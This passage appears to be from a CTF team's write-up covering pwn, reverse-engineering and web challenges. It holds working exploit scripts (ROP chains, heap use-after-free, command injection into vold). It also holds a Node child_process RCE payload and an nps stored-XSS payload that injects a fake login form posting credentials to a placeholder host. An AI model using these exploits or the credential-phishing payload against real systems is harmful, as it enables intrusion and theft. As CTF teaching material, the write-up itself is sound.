catCommand 是通过 fread 从一个文件中读数据然后存到栈上的数组，所以如果这个文件中的数据超过了栈上数组的大小，那么肯定就溢出了

Exp:

```python
from pwn import *
import time
import base64

context.log_level = 'debug'

io=lambda: r.interactive()
sl=lambda a: r.sendline(a)
sla=lambda a,b: r.sendlineafter(a,b)
se=lambda a: r.send(a)
sa=lambda a,b: r.sendafter(a,b)
lg=lambda name,data: log.success(name+":"+hex(data))
rcu=lambda a: r.recvuntil(a)

def z():
        gdb.attach(r)
        time.sleep(1)

if __name__ == '__main__':
        global r 
        global libc
        global ef
        #libc = ELF("./libc-2.31.so")
        #r = process("./pwn")
        r=remote("127.0.0.1",9999)
        #ef = ELF("./pwn")
        #ef.checksec()
        pop_rdi_ret = 0x401ce3
        system = 0x401230
        sh = 0x402090
        ret = 0x40101a
        
        ## leak canary
        sla("name:","nameless")
        sla("$","CAT")
        sla("view:","../secret/canary.txt")
        canary = int(r.recvuntil("\n",drop = True),16)
        lg("canary",canary)

        ## stack overflow attack
        sla("$","PING")
        payload = "a"*0x48 + p64(canary) + p64(0) + p64(pop_rdi_ret) + p64(sh) + p64(ret) +p64(system)
        payload = base64.b64encode(payload)
        print(len(payload))
        pd = ";echo "+'"'
        pd += payload
        pd += '" | base64 -d'
        #z()
        sla("address:",pd)

        ## get shell
        sla("$","CAT")
        #z()
        sla("view: ","result.txt")
        io()
```

### Binding

存在 UAF，所以可以通过 unsorted bin 泄露 libcbase 和 heapbase，一次任意地址写改 fs:0x28 的 canary，然后通过 edit 的 my_atoi 的溢出栈迁移到堆完成利用

#### Exp

```python
from pwn import *
import time

context.log_level = 'debug'

io=lambda: r.interactive()
sl=lambda a: r.sendline(a)
sla=lambda a,b: r.sendlineafter(a,b)
se=lambda a: r.send(a)
sa=lambda a,b: r.sendafter(a,b)
lg=lambda name,data: log.success(name+":"+hex(data))
rcu=lambda a: r.recvuntil(a)

def z():
        gdb.attach(r)
        time.sleep(1)

def cho(num):
        sla("choice:",str(num))

def add(idx,sz,con):
        cho(1)
        sla("Idx:",str(idx))
        sla("Size:",str(sz))
        sa("Content:",con)

def show(idx,choice):
        cho(3)
        sla("Your choice:",str(choice))
        sla("Idx:",str(idx))

def edit(idx,content1,content2):
        cho(2)
        sa("Idx:",idx)
        sa("context1: ",content1)
        sa("context2: ",content2)

def delet(idx):
        cho(4)
        sla("Idx:",str(idx))        

if __name__ == '__main__':
        global r 
        global libc
        global ef
        libc = ELF("./libc-2.31.so")
        #r = process("./pwn")
        r=remote("0.0.0.0",9999)
        ef = ELF("./pwn")
        ef.checksec()
        
        add(0,0x100,"nameless")
        add(1,0x100,"nameless")
        add(2,0x100,"nameless")
        add(3,0x100,"nameless")
        add(4,0x100,"nameless")
        add(5,0x100,"nameless")
        for i in range(0,5):
                delet(i)

        # leak libcbase && heapbase
        show(3,1)
        rcu("context: ")
        libcbase = u64(r.recv(6).ljust(8,'\x00')) - 0x1ecbe0
        show(2,0)
        rcu("context: ")
        heap = u64(r.recv(6).ljust(8,'\x00')) - 0x5d0
        lg("libcbase",libcbase)
        lg("heap",heap)

        # set libc func
        fsbase = libcbase + 0x1f3540
        canary = fsbase+0x28
        leave_ret = libcbase + 0x578c8 
        target = heap + 0xf60
        open = libcbase + libc.sym["open"]
        read = libcbase + libc.sym["read"]
        puts = libcbase + libc.sym["puts"]
        pop_rdi_ret = libcbase + 0x23b6a
        pop_rsi_ret = libcbase + 0x2601f
        pop_rdx_ret = libcbase + 0x142c92

        # set rop
        chunk = heap + 0xa10
        pd = p64(0)+p64(pop_rdi_ret)+p64(chunk)+p64(pop_rsi_ret)+p64(0)+p64(pop_rdx_ret)+p64(0)+p64(open)
        pd += p64(pop_rdi_ret)+p64(3)+p64(pop_rsi_ret)+p64(chunk)+p64(pop_rdx_ret)+p64(0x30)+p64(read)
        pd += p64(pop_rdi_ret)+p64(chunk)+p64(puts)
        add(6,0x150,"flag\x00")
        add(7,0x200,pd)

        # get shell
        edit("0".ljust(0x30,'\x00') + p64(target) + p64(leave_ret),p64(canary),p64(0))

        io()
```

### BadUdisk

#### 解法 1——label 注入

由于 label 字段没有做严格的限制，导致 vold 的 system 存在注入

赛后询问唯一做出来这题的北邮的纯真师傅，发现他就是这么做的，下面是他分享的 exp：

```python
from pwn import *
p=connect('1.14.69.246',9999)
context.log_level='debug'
p.sendlineafter(b'prefer:',b'a')
s='|chmod${IFS}+r${IFS}/home/ctf/*'
p.sendlineafter(b'$','printf${IFS}"\\'+oct(ord(s[0]))[2:].rjust(3,"0")+'">label')
s=s[1:]
for i in s:
    p.sendlineafter(b'$','printf${IFS}"\\'+oct(ord(i))[2:].rjust(3,"0")+'">>label')
p.sendlineafter(b'$','exit')
p.interactive()
```

#### 解法 2——USB 挂载目录覆盖

挂载的目录会通过 label 字段进行控制。比如我的 label 字段为"nameless",最后挂载的目录一般就是"/mnt/nameless"；但如果挂载的时候对 label 字段没有很好的限制的话，比如说没有禁掉".."，我的 label 字段设置为"../nameless",那么就有可能挂载到"/nameless"目录

而且一般处理挂载的是 root 一类的超级用户进程，挂载过后可能会有对其它进程的调用比如 system("/sbin/log")，如果通过这个挂载漏洞，覆盖掉/sbin 目录，将 log 替换为反弹 shell 到我们的攻击机上，就完成了提权和对目标设备的劫持

exp：

```python
from pwn import *
import time
import base64

context.log_level = 'debug'

io=lambda: r.interactive()
sl=lambda a: r.sendline(a)
sla=lambda a,b: r.sendlineafter(a,b)
se=lambda a: r.send(a)
sa=lambda a,b: r.sendafter(a,b)
lg=lambda name,data: log.success(name+":"+hex(data))
rcu=lambda a: r.recvuntil(a)

def z():
        gdb.attach(r)
        time.sleep(1)

if __name__ == '__main__':
        global r 
        global libc
        global ef
        #libc = ELF("./libc-2.31.so")
        #r = process("./pwn")
        r=remote("127.0.0.1",9999)
        sla("prefer:","../mybin")
        sla("$ ","sh")
        time.sleep(1)
        sl("cd ../tmp")
        time.sleep(1)
        sl("echo '#!/bin/sh\ncat /home/ctf/flag >/home/ctf/work/vold_log.txt\nchmod 777 /home/ctf/work/vold_log.txt' > log")
        time.sleep(1)
        sl("exit")
        time.sleep(1)
        sl("exit")
        io()
```

## REVERSE

### auuuu3

本题是由 autoit 编写而成的 exe，本质上也是一个虚拟机，通过解析 autoit 动态脚本语言来执行命令，倘若使用 IDA 或 od 直接逆向，那么是需要花费一段时间在这题上的。并且根据官方的说法,在 v3.2.5.1 之后的 autoit 版本中将不再拥有自带的反编译工具，本题所使用的 autoit 版本在 v3.2.5.1 之上。


不过好在已经有人帮助我们分析出了虚拟指令对应的含义，我们直接使用工具即可快速得到源码。

查壳，这是用 autoit 编译而成的 exe，无壳。


使用 `AutoIt-Ripper` 得到该 exe 的源码

```shell
https://github.com/nazywam/AutoIt-Ripper
```


通过搜索字符串 `wrong` 定位到关键函数


分析加密流程,首先判断输入是否满足 38 位,如果满足,则将输入经过 `ENC` 函数加密,`ENC` 函数如下

```c
Func ENC ( $DATA , $KEY )
        $DATA = Binary ( $DATA )
        Local $DATALEN = BinaryLen ( $DATA )
        If $DATALEN = 0 Then
                Return ""
        ElseIf $DATALEN < 8 Then
                $DATALEN = 8
        EndIf
        Local $OPCODE = "0x83EC14B83400000099538B5C2420558B6C242056578B7C9DFCF7FB89C683C606C74424180000000085F68D76FF0F8EEA000000896C24288D4BFF8D549D00894C2410895424148974242081442418B979379E8B4C2418C1E90281E103000000894C241C31F6397424107E568B5424288BCF8B6CB204C1E9058D14AD0000000033CA8BD58BC7C1EA03C1E00433D003CA8B5424188BDE81E303000000335C241C8B4424308B1C9833D533DF03D333CA8B542428010CB28B0CB2463974241089CF7FAA8B5424288BCF8B2AC1E9058D14AD0000000033CA8BD58BC7C1EA03C1E00433D003CA8B5424188BDE81E303000000335C241C8B4424308B1C9833D533DF03D3FF4C242033CA8B542414014AFC8B4AFC8B54242089CF420F8F2DFFFFFF5F31C05E5D5B83C414C21000"
        Local $CODEBUFFER = DllStructCreate ( "byte[" & BinaryLen ( $OPCODE ) & "]" )
        DllStructSetData ( $CODEBUFFER , 1 , $OPCODE )
        Local $V = DllStructCreate ( "byte[" & Ceiling ( $DATALEN / 4 ) * 4 & "]" )
        DllStructSetData ( $V , 1 , $DATA )
        Local $K = DllStructCreate ( "byte[16]" )
        DllStructSetData ( $K , 1 , $KEY )
        DllCall ( "user32.dll" , "none" , "CallWindowProc" , "ptr" , DllStructGetPtr ( $CODEBUFFER ) , "ptr" , DllStructGetPtr ( $V ) , "int" , Ceiling ( $DATALEN / 4 ) , "ptr" , DllStructGetPtr ( $K ) , "int" , 0 )
        Local $RET = DllStructGetData ( $V , 1 )
        $CODEBUFFER = 0
        $V = 0
        $K = 0
        Return $RET
EndFunc
```

可以发现函数动态加载了一个 dll,然后从 dll 调用加密函数进行加密

使用如下脚本将 `OPCODE` 以字节的形式写入文件,方便使用 IDA 进行分析

```python
import binascii
opcode = "83EC14B83400000099538B5C2420558B6C242056578B7C9DFCF7FB89C683C606C74424180000000085F68D76FF0F8EEA000000896C24288D4BFF8D549D00894C2410895424148974242081442418B979379E8B4C2418C1E90281E103000000894C241C31F6397424107E568B5424288BCF8B6CB204C1E9058D14AD0000000033CA8BD58BC7C1EA03C1E00433D003CA8B5424188BDE81E303000000335C241C8B4424308B1C9833D533DF03D333CA8B542428010CB28B0CB2463974241089CF7FAA8B5424288BCF8B2AC1E9058D14AD0000000033CA8BD58BC7C1EA03C1E00433D003CA8B5424188BDE81E303000000335C241C8B4424308B1C9833D533DF03D3FF4C242033CA8B542414014AFC8B4AFC8B54242089CF420F8F2DFFFFFF5F31C05E5D5B83C414C21000"
hex_bytes = binascii.a2b_hex(opcode)
with open("enc.dll",'wb') as f:
    f.write(hex_bytes)
```

伪代码如下,可以发现加密算法为 xxtea


编写 exp 得到 flag

```python
import binascii
from ctypes import *
import struct


def MX(z, y, total, key, p, e):
    temp1 = (z.value >> 5 ^ y.value << 2) + (y.value >> 3 ^ z.value << 4)
    temp2 = (total.value ^ y.value) + (key[(p & 3) ^ e.value] ^ z.value)

    return c_uint32(temp1 ^ temp2)


def decrypt(n, v, key):
    delta = 0x61C88647
    rounds = 6 + 52 // n

    total = c_uint32(-rounds * delta)
    y = c_uint32(v[0])
    e = c_uint32(0)

    while rounds > 0:
        e.value = (total.value >> 2) & 3
        for p in range(n - 1, 0, -1):
            z = c_uint32(v[p - 1])
            v[p] = c_uint32((v[p] - MX(z, y, total, key, p, e).value)).value
            y.value = v[p]
        z = c_uint32(v[n - 1])
        v[0] = c_uint32(v[0] - MX(z, y, total, key, 0, e).value).value
        y.value = v[0]
        total.value += delta
        rounds -= 1

    return v


if __name__ == "__main__":
    ct = "7218181A02F79F4B5773E8FFE83FE732DF96259FF2B86AAB945468A132A83D83CF9D750E316C8675"
    ct = binascii.a2b_hex(ct)
    flag = ""
    key = "Wowww111auUu3"
    v = struct.unpack('<10I', ct)
    k = struct.unpack('<4I', key.encode() + b'\x00' * 3)
    v = list(v)
    k = list(k)
    n = 10
    res = decrypt(n, v, k)
    for r in res:
        print(r.to_bytes(4, 'little').decode(), end='')
```

### vm_flutter

虽然这个 apk 是使用 flutter 编写的,但是其实在本题中 flutter 仅仅是纸老虎般的存在。

在本题的题目描述中给出了两个提示，第一是对 flag 的加密算法有且只有一个 vm，第二是全部 vm 相关的函数都定义在 Java 层中，dart 层仅仅只是调用 java 层中定义的函数。所以根据这两个提示，就可以联想到使用 frida 等 hook 框架去 hook java 层中 vm 相关的函数，打印出虚拟指令来进行分析，如果可以想到这一点，那么这题就迎刃而解了。倘若使用 reflutter 等 flutter 逆向工具，那么将会在 dart 虚拟机中越陷越深:(

在本题中，opcode 是在 dart 层被定义的，但是这其实无关紧要，因为 vm 相关的函数是在 java 层中定义的，我们对 vm 函数 hook 的过程其实就是对 opcode 的“解读”过程，通过 hook 的操作，我们就可以将 vm 对内部栈或内存的操作映射为可读的、可以理解的虚拟指令来进行分析。

所以设计本题也是基于这种思想，使用目前安卓层面逆向难度非常高的 flutter 框架，来模拟类似 vmprotect 这类强壳 opcode 未知的场景，甚至在 vmprotect 中 opcode 会在间隔不定时间后随机变换。虽然我们不知道 opcode，但是万变不离其宗，vm 解析 opcode 之后最终要执行的操作是不会变的。

获取 flag 的过程如下

使用 jadx 反编译，发现方法名被混淆,但是进入 `com.dasctf.vm_flutter.vm_flutter.MainActivity` 可以看到 vm 相关的字符串


通过给 `c2` 赋不同的值来调用 vm 中的函数


根据字符串的提示,我们便知道了被混淆的 vm 的函数都是什么含义


同时我们还在这里发现了最终的校验函数,可以推测最终的 flag 应该有 33 位


使用 frida hook vm 函数来获取 vm 指令

```javascript
function hook(){
    Java.perform(function(){
        const activity = Java.use("k.b");
        activity.a.implementation = function(){
            console.log("Lshift");
        }
        activity.b.implementation = function(){
            console.log("Rshift");
        }
        activity.c.implementation = function(){
            console.log("add");
        }
        activity.d.implementation = function(){
            console.log("and");
        }
        activity.e.implementation = function(x){
            console.log("load "+x);
        }
        activity.f.implementation = function(){
            console.log("mul");
        }
        activity.g.implementation = function(){
            console.log("or");
        }
        activity.h.implementation = function(){
            console.log("pop");
        }
        activity.i.implementation = function(x){
            console.log("push "+x);
        }
        activity.j.implementation = function(x){
            console.log("store "+x);
        }
        activity.k.implementation = function(){
            console.log("sub");
        }
        activity.l.implementation = function(){
            console.log("xor");
        }
    })
}

setImmediate(hook,0);
```

使用下列命令注入脚本

```shell
frida -U -l .\hook.js -f "com.dasctf.vm_flutter.vm_flutter"
```

我们输入 33 位的数字,例如 `000000000000000000000000000000000`,frida 打印的内容如下

```sql
push 48
store 0
push 176
push 11
load 0
add
xor
store 0
push 48
store 1
push 198
push 18
load 1
add
xor
store 1
push 48
store 2
push 66
push 5
load 2
add
xor
store 2
push 48
store 3
push 199
push 18
load 3
add
xor
store 3
push 48
store 4
push 170
push 14
load 4
add
xor
store 4
push 48
store 5
push 32
push 13
load 5
add
xor
store 5
push 48
store 6
push 31
push 14
load 6
add
xor
store 6
push 48
store 7
push 60
push 18
load 7
add
xor
store 7
push 48
store 8
push 26
push 13
load 8
add
xor
store 8
push 48
store 9
push 89
push 18
load 9
add
xor
store 9
push 48
store 10
push 60
push 17
load 10
add
xor
store 10
push 48
store 11
push 119
push 19
load 11
add
xor
store 11
push 48
store 12
push 60
push 17
load 12
add
xor
store 12
push 48
store 13
push 90
push 5
load 13
add
xor
store 13
push 48
store 14
push 104
push 13
load 14
add
xor
store 14
push 48
store 15
push 174
push 19
load 15
add
xor
store 15
push 48
store 16
push 146
push 11
load 16
add
xor
store 16
push 48
store 17
push 179
push 5
load 17
add
xor
store 17
push 48
store 18
push 67
push 15
load 18
add
xor
store 18
push 48
store 19
push 73
push 11
load 19
add
xor
store 19
push 48
store 20
push 50
push 12
load 20
add
xor
store 20
push 48
store 21
push 92
push 19
load 21
add
xor
store 21
push 48
store 22
push 170
push 19
load 22
add
xor
store 22
push 48
store 23
push 160
push 9
load 23
add
xor
store 23
push 48
store 24
push 166
push 15
load 24
add
xor
store 24
push 48
store 25
push 47
push 8
load 25
add
xor
store 25
push 48
store 26
push 155
push 19
load 26
add
xor
store 26
push 48
store 27
push 115
push 9
load 27
add
xor
store 27
push 48
store 28
push 60
push 13
load 28
add
xor
store 28
push 48
store 29
push 52
push 12
load 29
add
xor
store 29
push 48
store 30
push 42
push 5
load 30
add
xor
store 30
push 48
store 31
push 96
push 19
load 31
add
xor
store 31
push 48
store 32
push 72
push 7
load 32
add
xor
store 32
```

分析一下 vm 指令,这里有个相同的结构,经过分析后可以发现这是标准的栈式虚拟机,先将操作数压入栈中,然后进行运算时从栈顶取回,所以此处的 vm 加密是对输入加上一个数,再去异或一个数

```sql
push 48
store 0
push 176
push 11
load 0
add
xor
store 0
```

编写 exp 得到 flag

```python
import re

output = '''push 48
store 0
push 176
push 11
load 0
add
xor
store 0
push 48
store 1
push 198
push 18
load 1
add
xor
store 1
push 48
store 2
push 66
push 5
load 2
add
xor
store 2
push 48
store 3
push 199
push 18
load 3
add
xor
store 3
push 48
store 4
push 170
push 14
load 4
add
xor
store 4
push 48
store 5
push 32
push 13
load 5
add
xor
store 5
push 48
store 6
push 31
push 14
load 6
add
xor
store 6
push 48
store 7
push 60
push 18
load 7
add
xor
store 7
push 48
store 8
push 26
push 13
load 8
add
xor
store 8
push 48
store 9
push 89
push 18
load 9
add
xor
store 9
push 48
store 10
push 60
push 17
load 10
add
xor
store 10
push 48
store 11
push 119
push 19
load 11
add
xor
store 11
push 48
store 12
push 60
push 17
load 12
add
xor
store 12
push 48
store 13
push 90
push 5
load 13
add
xor
store 13
push 48
store 14
push 104
push 13
load 14
add
xor
store 14
push 48
store 15
push 174
push 19
load 15
add
xor
store 15
push 48
store 16
push 146
push 11
load 16
add
xor
store 16
push 48
store 17
push 179
push 5
load 17
add
xor
store 17
push 48
store 18
push 67
push 15
load 18
add
xor
store 18
push 48
store 19
push 73
push 11
load 19
add
xor
store 19
push 48
store 20
push 50
push 12
load 20
add
xor
store 20
push 48
store 21
push 92
push 19
load 21
add
xor
store 21
push 48
store 22
push 170
push 19
load 22
add
xor
store 22
push 48
store 23
push 160
push 9
load 23
add
xor
store 23
push 48
store 24
push 166
push 15
load 24
add
xor
store 24
push 48
store 25
push 47
push 8
load 25
add
xor
store 25
push 48
store 26
push 155
push 19
load 26
add
xor
store 26
push 48
store 27
push 115
push 9
load 27
add
xor
store 27
push 48
store 28
push 60
push 13
load 28
add
xor
store 28
push 48
store 29
push 52
push 12
load 29
add
xor
store 29
push 48
store 30
push 42
push 5
load 30
add
xor
store 30
push 48
store 31
push 96
push 19
load 31
add
xor
store 31
push 48
store 32
push 72
push 7
load 32
add
xor
store 32'''
pattern = r'push\s+(\d+)'
final = [255, 149, 26, 146, 200, 115, 150, 68, 36, 222, 185, 240, 74, 45, 4, 234, 236, 215, 62, 114, 178, 46, 205, 209,
         214, 83, 233, 34, 82, 74, 67, 36, 204]
matches = re.findall(pattern, output)
#print(matches)
for i in range(len(final)):
    print(chr((final[i] ^ (int(matches[i * 3 + 1]))) - int(matches[i * 3 + 2])), end='')
```

### marshal

下载附件发现使用了 marshal 库加载字节码运行

由于题目嵌套使用了多层 marshal，无法直接提取并反编译，故使用 python 的 dis.dis 查看反汇编

由于 exec 会在当前 frame 中执行，故执行的全局变量也会留下，可使用 globals() 查看

程序输入错误会退出，可在 exec 前定义一个 exit 函数，并使用 try 执行 exec 防止退出


在任意输入后，通过 globals() 打印出的信息中，发现有 Sbox 等变量，generateRoundkeys80 等函数名，搜索后发现是 present 算法，cmps 为密文数组，blocks 为输入数组。


key 并不是全局变量，可以对 generateRoundkeys80 进行 hook 拿到。


使用标准算法解密失败，猜测可能对算法进行了修改，通过 dis.dis 查看函数。在 generateRoundkeys80 中，发现和标准算法相比多异或了一个 (key<<19)，相应修改解密算法即可



Exp:

```python
def sBoxLayer_dec(state):
    output = 0
    for i in range(16):
            output += Sbox_inv[( state >> (i*4)) & 0xF] << (i*4)
    return output

def pLayer_dec(state):
    output = 0
    for i in range(64):
            output += ((state >> i) & 0x01) << PBox_inv[i]
    return output

def generateRoundkeys80(key,rounds):
    roundkeys = []
    for i in range(1,rounds+1,1): 
            roundkeys.append(key >>16)
            key = ((key & (2**19-1)) << 61) + (key >> 19)
            key = (Sbox[key >> 76] << 76)+(key & (2**76-1))
            key ^= (i << 15)^(key >> 19)
    return roundkeys

def string2number(i):
    return sum([ord(i[c])<<(8*c) for c in range(8)])

#        0   1   2   3   4   5   6   7   8   9   a   b   c   d   e   f
Sbox= [0xc,0x5,0x6,0xb,0x9,0x0,0xa,0xd,0x3,0xe,0xf,0x8,0x4,0x7,0x1,0x2]
Sbox_inv = [Sbox.index(x) for x in range(16)]
PBox = [0,16,32,48,1,17,33,49,2,18,34,50,3,19,35,51,
        4,20,36,52,5,21,37,53,6,22,38,54,7,23,39,55,
        8,24,40,56,9,25,41,57,10,26,42,58,11,27,43,59,
        12,28,44,60,13,29,45,61,14,30,46,62,15,31,47,63]
PBox_inv = [PBox.index(x) for x in range(64)]

def addRoundKey(state,roundkey):
    return state ^ roundkey

def decrypt(blocks):
    rounds = 32
    roundkeys = generateRoundkeys80(85354531916197809168417, rounds)
    flag = ''
    for block in blocks:
        state = block
        for i in range(rounds-1):
                state = addRoundKey(state, roundkeys[-i-1])
                state = pLayer_dec(state)
                state = sBoxLayer_dec(state)
        decipher = addRoundKey(state, roundkeys[0])
        flag += ''.join([chr(decipher>>(c*8) & 0xff) for c in range(8)])
    print(flag)
cmps = [120617461261311902, 16357837616839286114, 312508749794633008, 1843701600916795272]
decrypt(cmps)
```

## WEB

### yet another sandbox

<em>由于本题实际上不需要深入分析也可以通过简单测试得到 RCE ，因而评估为简单（ ´∀｀）</em><em>仅 3 解不在预料之内喵</em>

题目服务仅提供 `shadowRealm` 沙箱内执行任意代码，并且给出了完整的前端 ajax，无需脚本交互。

查阅资料可以得知 `shadowRealm` 是一个独特的全局环境沙箱，拥有自己的全局对象，其中包含自己的内置函数，因而无法类似 `node:vm` 可以获取通过 global 获取主模块的对象，也无法通过 `prototype pollution` 控制主模块中的内置属性。另外由于与 package.json 声明了 `"type":"module"` 且文件结尾为 .mjs，所采用的 ESM 默认 `strict mode`，无法通过 [stack-trace-api](https://v8.dev/docs/stack-trace-api#customizing-stack-traces) 跨上下文取得可利用对象。

在 [TC39 - shadowReal-API](https://tc39.es/proposal-shadowrealm/) 可以比找到 `shadowRealm` 的抽象实现逻辑，而 node runtime 对其的实作是通过 [/src/node_shadow_realm.h](https://github.com/nodejs/node/blob/e01c1d700d9fdb197ea40a444ebd228337a7dd6e/src/node_shadow_realm.h#L12) 与 V8 进行对接。了解到这些内容就可以很容易地找到利用方向。

抽象调用栈如下

```javascript
ShadowRealm.prototype.evaluate => PerformShadowRealmEval => Execution Contexts
```

可知最后传递到了 ECMA262 的标准 `Execution Contexts` 的执行环境，翻阅该标准可以得知是支持目前已经支持了 `dynamic import`。

故可以直接 `dynamic import` 到 `child_process` RCE：

```javascript
import('child_process').then(m=>m.execSync('/readflag > /app/asserts/flag'));
1;
```

还有值得注意的是由于 `shadowRealm API` 的策略上有些许激进。这意味着如果意图通过外部模块（当然题给环境没有可利用的）或其他内置模块如 cluster、worker 实现 RCE，会由于 [PerformShadowRealmEval 17-19](https://tc39.es/proposal-shadowrealm/#sec-performshadowrealmeval) 直接 suspend，reject context 内所有现存的 promise，从而导致 [promise.js#262](https://github.com/nodejs/node/blob/b38e3124862f7623fd8e8f0a9b738065d9296a74/lib/internal/process/promises.js#L262) 以及 v8 上的 [regress-v8-12705.js#L8](https://github.com/nodejs/node/blob/b1ada0ad55da29d1dd0b2c605f004112e123f88d/deps/v8/test/mjsunit/regress/regress-v8-12705.js#L8) 报错。除非找到在没有 `top-level-async` 下的阻塞方案，否则无法通过这种方案解决。

<em>赛后和玩家交流才知道 ShadowRealm 对象在自身沙盒内可用，不知道有没有人是通过这一对象解决呢</em>

### nps hacker

比较鸡肋的一个 nps 控制台的 XSS 漏洞，不过说不定在蓝队溯源反制的时候用得上。

题目这里为了部署方便，把 `bridge_port` 和 `web_port` 设为了同一个端口，不过在攻击过程中，其实也不一定需要访问 `web_port`。

漏洞成因是 `bootstrapTable` 并未配置 `escape` 字段，再加上 nps 的用户默认配置文件。

例如页面模板 `web/views/client/list.html:42` 中并未配置 `escape: true`


`conf\nps.conf` 配置文件默认配置有 `public_vkey=123`，使用该 key 也可以使用 npc 连接至 nps



攻击者使用 `public_vkey` 作为客户端连接至 nps，并可配置用户名、密码、备注等信息，web 控制台的 `bootstrapTable` 并未转义这些字符，最终形成 `XSS` 漏洞

配置 `npc.conf`，这里经过简单审计，发现 `remark` 键后存在 `=` 将被截断，简单绕过

```go
[common]
server_addr=127.0.0.1:8024
conn_type=tcp
vkey=123
remark=</a><sCRiPt>document.write`\u003C\u0068\u0074\u006D\u006C\u003E\u003C\u0068\u0065\u0061\u0064\u003E\u003C\u002F\u0068\u0065\u0061\u0064\u003E\u003C\u0062\u006F\u0064\u0079\u003E\u003C\u0066\u006F\u0072\u006D\u0020\u0063\u006C\u0061\u0073\u0073\u003D\u0022\u006D\u002D\u0074\u0022\u0020\u006F\u006E\u0073\u0075\u0062\u006D\u0069\u0074\u003D\u0022\u0072\u0065\u0074\u0075\u0072\u006E\u0020\u0066\u0061\u006C\u0073\u0065\u0022\u003E\u003C\u0064\u0069\u0076\u0020\u0063\u006C\u0061\u0073\u0073\u003D\u0022\u0066\u006F\u0072\u006D\u002D\u0067\u0072\u006F\u0075\u0070\u0022\u003E\u003C\u0069\u006E\u0070\u0075\u0074\u0020\u006E\u0061\u006D\u0065\u003D\u0022\u0075\u0073\u0065\u0072\u006E\u0061\u006D\u0065\u0022\u0020\u0069\u0064\u003D\u0022\u0075\u0073\u0065\u0072\u006E\u0061\u006D\u0065\u0022\u0020\u0063\u006C\u0061\u0073\u0073\u003D\u0022\u0066\u006F\u0072\u006D\u002D\u0063\u006F\u006E\u0074\u0072\u006F\u006C\u0022\u0020\u0070\u006C\u0061\u0063\u0065\u0068\u006F\u006C\u0064\u0065\u0072\u003D\u0022\u0055\u0073\u0065\u0072\u006E\u0061\u006D\u0065\u0022\u0020\u0072\u0065\u0071\u0075\u0069\u0072\u0065\u0064\u003D\u0022\u0022\u0020\u006C\u0061\u006E\u0067\u0074\u0061\u0067\u003D\u0022\u0077\u006F\u0072\u0064\u002D\u0075\u0073\u0065\u0072\u006E\u0061\u006D\u0065\u0022\u003E\u003C\u002F\u0064\u0069\u0076\u003E\u003C\u0064\u0069\u0076\u0020\u0063\u006C\u0061\u0073\u0073\u003D\u0022\u0066\u006F\u0072\u006D\u002D\u0067\u0072\u006F\u0075\u0070\u0022\u003E\u003C\u0069\u006E\u0070\u0075\u0074\u0020\u006E\u0061\u006D\u0065\u003D\u0022\u0070\u0061\u0073\u0073\u0077\u006F\u0072\u0064\u0022\u0020\u0069\u0064\u003D\u0022\u0070\u0061\u0073\u0073\u0077\u006F\u0072\u0064\u0022\u0020\u0074\u0079\u0070\u0065\u003D\u0022\u0070\u0061\u0073\u0073\u0077\u006F\u0072\u0064\u0022\u0020\u0063\u006C\u0061\u0073\u0073\u003D\u0022\u0066\u006F\u0072\u006D\u002D\u0063\u006F\u006E\u0074\u0072\u006F\u006C\u0022\u0020\u0070\u006C\u0061\u0063\u0065\u0068\u006F\u006C\u0064\u0065\u0072\u003D\u0022\u0050\u0061\u0073\u0073\u0077\u006F\u0072\u0064\u0022\u0020\u0072\u0065\u0071\u0075\u0069\u0072\u0065\u0064\u003D\u0022\u0022\u0020\u006C\u0061\u006E\u0067\u0074\u0061\u0067\u003D\u0022\u0077\u006F\u0072\u0064\u002D\u0070\u0061\u0073\u0073\u0077\u006F\u0072\u0064\u0022\u003E\u003C\u002F\u0064\u0069\u0076\u003E\u003C\u0062\u0075\u0074\u0074\u006F\u006E\u0020\u006F\u006E\u0063\u006C\u0069\u0063\u006B\u003D\u0022\u0066\u0065\u0074\u0063\u0068\u0028\u0027\u0068\u0074\u0074\u0070\u003A\u002F\u002F\u0078\u0078\u0078\u0078\u0078\u0078\u002F\u0027\u002C\u007B\u006D\u0065\u0074\u0068\u006F\u0064\u003A\u0027\u0050\u004F\u0053\u0054\u0027\u002C\u0062\u006F\u0064\u0079\u003A\u0024\u0028\u0027\u0023\u0075\u0073\u0065\u0072\u006E\u0061\u006D\u0065\u0027\u0029\u005B\u0030\u005D\u002E\u0076\u0061\u006C\u0075\u0065\u002B\u0027\u005F\u005F\u005F\u0027\u002B\u0024\u0028\u0027\u0023\u0070\u0061\u0073\u0073\u0077\u006F\u0072\u0064\u0027\u0029\u005B\u0030\u005D\u002E\u0076\u0061\u006C\u0075\u0065\u007D\u0029\u003B\u0022\u0020\u006C\u0061\u006E\u0067\u0074\u0061\u0067\u003D\u0022\u0077\u006F\u0072\u0064\u002D\u006C\u006F\u0067\u0069\u006E\u0022\u003E\u004C\u006F\u0067\u0069\u006E\u003C\u002F\u0062\u0075\u0074\u0074\u006F\u006E\u003E\u003C\u002F\u0066\u006F\u0072\u006D\u003E\u003C\u002F\u0062\u006F\u0064\u0079\u003E\u003C\u002F\u0068\u0074\u006D\u006C\u003E`</sCrIpT>
```

这里根据题目的语法配置一个登录框，做登录劫持

```html
<html>
    <head></head>
    <body>
        <form class="m-t" onsubmit="return false">
            <div class="form-group">
                <input name="username" id="username" class="form-control" placeholder="Username" required="" langtag="word-username">
            </div>
            <div class="form-group">
                <input name="password" id="password" type="password" class="form-control" placeholder="Password" required="" langtag="word-password">
            </div>
            <button onclick="fetch('http://xxxxxx/',{method:'POST',body:$('#username')[0].value+'___'+$('#password')[0].value});" langtag="word-login">Login</button>
        </form>
    </body>
</html>
```

使用如下命令连接

```
npc -config npc.conf
```

稍等一段时间即可收到


更多细节可以见

[https://blog.carrot2.cn/2023/10/nps2.html](https://blog.carrot2.cn/2023/10/nps2.html)

### Deserialize?Upload!


1.阅读源码，在 pom.xml 中发现存在 actuator 依赖，并且 SpringSecurity 没有对/actuator 进行验证


在 application.properties 中，确认 actuator 暴露端点，同时题目给出的源码附件没有真实 password

```
spring.security.user.name=admin
spring.security.user.password=This_is_fake_password
management.endpoints.web.exposure.include=health,info,env,heapdump
```

2.访问/actuator/env，得到以下信息

```
"java.home":{"value":"/usr/lib/jvm/java-8-openjdk-amd64/jre"}
"spring.security.user.name":{"value":"admin","origin":"class path resource [application.properties] from app.jar - 8:27"}
"spring.security.user.password":{"value":"<strong>*</strong>*","origin":"class path resource [application.properties] from app.jar - 9:31"}
```

内存中存在 springsecurity 的密码，但在 env 中做了脱敏处理，无法直接获取

